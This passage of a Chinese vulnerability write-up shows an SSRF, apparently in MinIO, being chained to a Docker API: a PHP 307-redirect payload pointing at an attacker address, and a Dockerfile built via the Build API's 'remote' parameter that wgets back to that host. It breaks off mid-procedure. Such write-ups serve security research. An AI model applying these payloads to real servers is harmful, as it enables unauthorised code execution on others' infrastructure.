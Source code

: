 两个API都是POST请求，而我们可以构造的SSRF却是一个GET的。怎么办呢？

还记得我们是怎样获得这个GET型的SSRF的吗？通过302跳转，而接受第一次跳转的请求就是一个POST请求。不过我们没法直接利用这个POST请求，因为他的Path不可控。

如何构造一个Path可控的POST请求呢？

我想到了307跳转，307跳转是在[RFC 7231](https://tools.ietf.org/html/rfc7231#page-58)中定义的一种HTTP状态码，描述如下：

```
The 307 (Temporary Redirect) status code indicates that the target resource resides temporarily under a different URI and the user agent MUST NOT change the request method if it performs an automatic redirection to that URI.
```

307跳转的特点就是**不会**改变原始请求的方法，也就是说，在服务端返回307状态码的情况下，客户端会按照Location指向的地址发送一个相同方法的请求。

我们正好可以利用这个特性，来获得POST请求。

简单修改一下之前的index.php：

```php
<?php
header('Location: http://192.168.1.142:4444/attack?arbitrary=params', false, 307);
```

尝试SSRF攻击，收到了预期的请求：

![](http://wikioss.peiqi.tech/vuln/minio-7.png)

Bingo，获得了一个POST请求的SSRF，虽然没有Body。

回到Docker API，我发现现在仍然没法对run和exec两个API做利用，原因是，这两个API都需要在请求Body中传输JSON格式的参数，而我们这里的SSRF无法控制Body。

继续翻越Docker文档，我发现了另一个API，[Build an image](https://docs.docker.com/engine/api/v1.41/#operation/ImageBuild)：

![](http://wikioss.peiqi.tech/vuln/minio-8.png)

这个API的大部分参数是通过Query Parameters传输的，我们可以控制。阅读其中的选项，发现它可以接受一个名为`remote`的参数，其说明为：

```
A Git repository URI or HTTP/HTTPS context URI. If the URI points to a single text file, the file’s contents are placed into a file called Dockerfile and the image is built from that file. If the URI points to a tarball, the file is downloaded by the daemon and the contents therein used as the context for the build. If the URI points to a tarball and the dockerfile parameter is also specified, there must be a file with the corresponding path inside the tarball.
```

这个参数可以传入一个Git地址或者一个HTTP URL，内容是一个Dockerfile或者一个包含了Dockerfile的Git项目或者一个压缩包。

也就是说，Docker API支持通过指定远程URL的方式来构建镜像，而不需要我在本地写入一个Dockerfile。

所以，我尝试编写了这样一个Dockerfile，看看是否能够build这个镜像，如果可以，那么我的4444端口应该能收到wget的请求：

```
FROM alpine:3.13
RUN wget -T4 http://192.168.1.142:4444/docker/build
```

然后修改前面的index.php，指向Docker集群的2375端口：

